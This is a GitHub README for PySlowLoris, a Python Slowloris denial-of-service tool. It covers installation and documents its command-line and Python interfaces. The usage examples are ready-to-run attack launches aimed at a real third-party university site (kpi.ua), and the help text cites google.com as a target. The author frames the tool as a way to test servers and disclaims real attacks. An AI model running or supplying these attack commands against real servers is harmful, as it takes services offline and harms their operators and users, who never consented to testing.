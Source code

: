# PySlowLoris
[![Gitter chat](https://badges.gitter.im/gitterHQ/gitter.png)](https://gitter.im/SlowLoris-dev/Lobby)
[![License](https://img.shields.io/badge/license-MIT%20license-orange.svg)](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE)
[![Python](https://img.shields.io/badge/python-2.7-blue.svg)](https://github.com/maxkrivich/SlowLoris)
[![Build Status](https://travis-ci.org/maxkrivich/SlowLoris.svg?branch=master)](https://travis-ci.org/maxkrivich/SlowLoris)
[![Requirements Status](https://requires.io/github/maxkrivich/SlowLoris/requirements.svg?branch=master)](https://requires.io/github/maxkrivich/SlowLoris/requirements/?branch=master)
[![Code Health](https://landscape.io/github/maxkrivich/SlowLoris/master/landscape.svg?style=flat)](https://landscape.io/github/maxkrivich/SlowLoris/master)
[![PyPI version](https://badge.fury.io/py/PySlowLoris.svg)](https://badge.fury.io/py/PySlowLoris)

This repository was created for testing Slow Loris vulnerability on different web servers. SL based on keeping alive open connection as long as possible and sending some trash headers to the server. If you are interested what I'm trying doing here, please join my team and let's do fun together. Please DO NOT use this in the real attacks on the servers.

The main reason why I'm writing this module it is to create the easy tool for the fast check a small personal or corporate web server what based on Apache and etc. Also, last but not least reason is to improve my skills in this sphere.

More information you can find [here].

### Installation

#### PyPi

To install PySlowLoris, run this command in your terminal:

```sh
$ pip install pyslowloris
```
This is the preferred method to install PySlowLoris, as it will always install the most recent stable release.


#### Source files

In case you downloaded or cloned the source code from [GitHub](https://github.com/maxkrivich/SlowLoris) or your own fork, you can run the following to install cameo for development:

```sh
$ git clone https://github.com/[username]/SlowLoris.git
$ cd SlowLoris
$ vitualenv --python=python[version] venv
$ source venv/bin/active
$ pip install --editable .
```

#### Docker Hub

Pulling image from [Docker Hub](https://hub.docker.com/r/maxkrivich/pyslowloris/) and run container:

```sh
$ docker pull maxkivich/pyslowloris
$ docker run --rm -it maxkivich/pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]
```

Also you can build image from [Dockerfile](https://github.com/maxkrivich/SlowLoris/blob/master/Dockerfile) and run container: 

```sh
$ docker build -t pyslowloris .
$ docker run --rm -it pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]
```

**Note:** *Don't forget about 'sudo'!*

### Basic Usage

Available command list:

```sh
$ slowloris --help
usage: slowloris [-h] [-u URL] [-s SOCKET_COUNT] [-p PORT]

Small and simple tool for testing Slow Loris vulnerability

optional arguments:
  -h                show this help message and exit
  -u URL            link to the web server (http://google.com) - str
  -s SOCKET_COUNT   maximum count of created connection (default value 300) - int
  -p PORT           port what will be used - int

```

#### Using PySlowLoris from code

Here are some example to start attack from Python code

```py
import time
from PySlowLoris import TargetInfo, SlowLorisAttack

target = TargetInfo(url="http://kpi.ua/", port=80)
target.get_info()
slowloris = SlowLorisAttack(target)
slowloris.start_attack() # stop_attack()

while True:
    time.sleep(1)

```

#### Using PySlowLoris from terminal

The following command helps to use module from command line

```sh
$ slowloris -u http://kpi.ua/ -s 300
```
###### stop execution: Ctrl + C


### Bugs, issues and contributing

If you find [bugs] or have [suggestions] about improving the module, don't hesitate to contact [me].


### License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE) file for details

Copyright (c) 2017 Maxim Krivich

[maxkrivich.github.io](https://maxkrivich.github.io/)



[here]: <https://en.wikipedia.org/wiki/Slowloris_(computer_security)>
[bugs]: <https://github.com/maxkrivich/SlowLoris/issues>
[suggestions]: <https://github.com/maxkrivich/SlowLoris/issues>
[me]: <https://maxkrivich.github.io>
